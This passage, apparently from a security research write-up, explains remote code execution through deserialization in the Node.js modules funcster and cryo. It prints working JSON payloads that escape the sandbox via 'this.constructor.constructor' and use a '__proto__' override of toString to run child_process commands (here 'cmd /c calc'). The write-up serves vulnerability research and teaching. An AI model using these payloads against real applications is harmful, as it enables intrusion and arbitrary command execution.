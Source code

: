
For this reason, it is not possible to call a function as `require()` directly. However, the process is still exploitable via sandbox bypassing. The common technique to achieve that is to access global objects via `this.constructor.costructor`. This payload can be used to achieve RCE on an application using `require('funcster').unserialize()`:

```js
{"rce":{"__js_function":"function(){CMD=\"cmd /c calc\";const process = this.constructor.constructor('return this.process')();process.mainModule.require('child_process').exec(CMD,function(error,stdout,stderr){console.log(stdout)});}()"}}
```

**cryo**

The last module analysed is `cryo`. This library, as explicitly stated on the module website, extends the JSON functionalities offering complex object and function serialization.

This library is not directly vulnerable to RCE via deserialization, because it properly handles function and complex objects. However, it allows for object prototypes redefinition. As the reader may know, any object in JavaScript holds is own properties and methods. Usually, it's not possible to add properties to an existing object constructor, however, JavaScript prototype allows to add/redefine properties or methods at runtime, without adding them via the default constructor. Additionally, it is possible to access the `Object.prototype` property using the `__proto__` property.

The `__proto__` property of Object.prototype is an accessor property (a getter function and a setter function) that exposes the internal [[Prototype]] (either an object or null) of the object through which it is accessed.

Manipulating the `__proto__` property, then, it may be possible to overwrite/redefine standard methods of the object to deserialize, such as `toString()` or `valueOf()`. In that case, what would happen if the following JSON payload was deserialized?

```js
{
    "root":"_CRYO_REF_2",
    "references":[{
        "contents":{},
        "value":"_CRYO_FUNCTION_function(){ CMD = \"cmd /c calc\"; const process = this.constructor.constructor('return this.process')();process.mainModule.require('child_process').exec(CMD, function(error, stdout, stderr) { console.log(stdout) });}()"
    },
    {
        "contents":{"toString":"_CRYO_REF_0"},
        "value":"_CRYO_OBJECT_" },
    {
        "contents":{"__proto__":"_CRYO_REF_1"},
        "value":"_CRYO_OBJECT_"        
    }]
}
```

During deserialization, cryo would redefine the `toString()` function, via `__proto__` accessor. If later on the application tried calling the `toString()` method of the deserialized object, the RCE function would be called instead.
Of course, any object method may be overwritten, `toString` is just an example.
